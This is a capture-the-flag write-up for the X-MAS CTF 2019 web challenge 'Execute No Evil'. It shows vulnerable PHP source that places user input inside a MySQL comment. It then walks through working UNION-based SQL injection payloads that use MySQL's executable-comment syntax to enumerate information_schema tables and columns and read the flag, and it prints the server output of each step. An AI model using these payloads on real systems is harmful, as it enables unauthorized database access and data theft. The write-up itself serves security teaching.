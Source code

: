 # X-MAS CTF 2019 – Execute No Evil

* **Category:** web
* **Points:** 50

## Challenge

> (1) New Message: "Hey dude. So we have this database system at work and I just found an SQL injection point. I quickly fixed it by commenting out all the user input in the query. Don't worry, I made the query so that it responds with boss's profile, since he is kind of the only person actively using this database system, and he always looks up his own name, lol. Anyway, guess we'll go with this til' the sysadmin comes and fixes the issue."
>
> Huh, so hear no evil, see no evil, ... execute no evil?
>
> Remote server: http://challs.xmas.htsp.ro:11002
>
> Author: Milkdrop

## Solution

Analyzing the HTML source coude you can discover an interesting comment.

```html
<head>
	<link rel="stylesheet" type="text/css" href="style.css">
</head>
<body>
<form class="center">
	<h2>Cobalt Inc. employee database search</h2>
	<label>Name:</label>
	<input type="text" name="name" autocomplete="off">
	<input type="submit" value="Search">
</form>
<br>
<!-- ?source=1 -->


</body>
```

So, connecting to `http://challs.xmas.htsp.ro:11002/?source=1` you can print the PHP source code.

```php
<?php
if (isset ($_GET['source'])) {
    show_source ("index.php");
    die ();
}
?>

<head>
    <link rel="stylesheet" type="text/css" href="style.css">
</head>
<body>
<form class="center">
    <h2>Cobalt Inc. employee database search</h2>
    <label>Name:</label>
    <input type="text" name="name" autocomplete="off">
    <input type="submit" value="Search">
</form>
<br>
<!-- ?source=1 -->

<?php
include ("config.php");
$conn = new mysqli ($servername, $username, $password, $dbname);

if (isset ($_GET['name'])) {
    $name = $_GET['name'];
    $name = str_replace ("*", "", $name);
    $records = mysqli_query ($conn, "SELECT * FROM users WHERE name=/*" . $name . "*/ 'Geronimo'", MYSQLI_USE_RESULT); // Don't tell boss

    if ($records === false) {
        die ("<p>Our servers have run into a query error. Please try again later.</p>");
    }

    echo '<table>';
    echo '
    <tr>
        <th>Name</th>
        <th>Description</th>
    </tr>';

    while ($row = mysqli_fetch_array ($records, MYSQLI_ASSOC)) {
        echo '<tr>
            <td>',$row["name"],'</td>
            <td>',$row["description"],'</td>
        </tr>';
    }

    echo '</table>';
}
?>

</body>
```

Even if the `$name` variable is concatenated inside a MySQL comment, the code is still vulnerable to SQL injection, because MySQL can execute query portions inside comments.

From [https://www.owasp.org/index.php/Testing_for_MySQL](https://www.owasp.org/index.php/Testing_for_MySQL):

> Fingerprinting MySQL
>
> Of course, the first thing to know is if there's MySQL DBMS as a back end database. MySQL server has a feature that is used to let other DBMS ignore a clause in MySQL dialect. When a comment block ('/**/') contains an exclamation mark ('/*! sql here*/') it is interpreted by MySQL, and is considered as a normal comment block by other DBMS as explained in MySQL manual.
> 
> Example:
>
> 1 /*! and 1=0 */
> 
> Result Expected:
>
> If MySQL is present, the clause inside the comment block will be interpreted.

The base to perform SQL injection is the following.

```sql
challs.xmas.htsp.ro:11002/?name=!'Geronimo' UNION <malicious payload> UNION SELECT 'foo', name, description FROM users WHERE name =
```

First of all you could try to enumerate DB tables.

```sql
challs.xmas.htsp.ro:11002/?name=!'Geronimo' UNION SELECT 'foo', table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema' UNION SELECT 'foo', name, description FROM users WHERE name =
```

And you will discover that a `flag` table exists.

```html
<head>
	<link rel="stylesheet" type="text/css" href="style.css">
</head>
<body>
<form class="center">
	<h2>Cobalt Inc. employee database search</h2>
	<label>Name:</label>
	<input type="text" name="name" autocomplete="off">
	<input type="submit" value="Search">
</form>
<br>
<!-- ?source=1 -->

<table>
	<tr>
		<th>Name</th>
		<th>Description</th>
	</tr><tr>
			<td>Geronimo</td>
			<td>People say he owns a Cadillac ...</td>
		</tr><tr>
			<td>ctf</td>
			<td>users</td>
		</tr><tr>
			<td>ctf</td>
			<td>flag</td>
		</tr><tr>
			<td>Geronimo</td>
			<td>People say he owns a Cadillac ...</td>
		</tr></table>
</body>
```

Then you can enumerate table columns.

```sql
challs.xmas.htsp.ro:11002/?name=!'Geronimo' UNION SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_name = 'flag' UNION SELECT 'foo', name, description FROM users WHERE name =
```

And you can discover that a column called `whatsthis` exists.

```html
<head>
	<link rel="stylesheet" type="text/css" href="style.css">
</head>
<body>
<form class="center">
	<h2>Cobalt Inc. employee database search</h2>
	<label>Name:</label>
	<input type="text" name="name" autocomplete="off">
	<input type="submit" value="Search">
</form>
<br>
<!-- ?source=1 -->

<table>
	<tr>
		<th>Name</th>
		<th>Description</th>
	</tr><tr>
			<td>Geronimo</td>
			<td>People say he owns a Cadillac ...</td>
		</tr><tr>
			<td>flag</td>
			<td>whatsthis</td>
		</tr><tr>
			<td>Geronimo</td>
			<td>People say he owns a Cadillac ...</td>
		</tr></table>
</body>
```

And now you can print the content of the table.

```sql
challs.xmas.htsp.ro:11002/?name=!'Geronimo' UNION SELECT 'foo', 'bar', whatsthis FROM flag UNION SELECT 'foo', name, description FROM users WHERE name =
```

The content of the table will reveal the flag.

```html
<head>
	<link rel="stylesheet" type="text/css" href="style.css">
</head>
<body>
<form class="center">
	<h2>Cobalt Inc. employee database search</h2>
	<label>Name:</label>
	<input type="text" name="name" autocomplete="off">
	<input type="submit" value="Search">
</form>
<br>
<!-- ?source=1 -->

<table>
	<tr>
		<th>Name</th>
		<th>Description</th>
	</tr><tr>
			<td>Geronimo</td>
			<td>People say he owns a Cadillac ...</td>
		</tr><tr>
			<td>bar</td>
			<td>X-MAS{What?__But_1_Th0ught_Comments_dont_3x3cvt3:(}</td>
		</tr><tr>
			<td>Geronimo</td>
			<td>People say he owns a Cadillac ...</td>
		</tr></table>
</body>
```

The flag is the following.

```
X-MAS{What?__But_1_Th0ught_Comments_dont_3x3cvt3:(}
```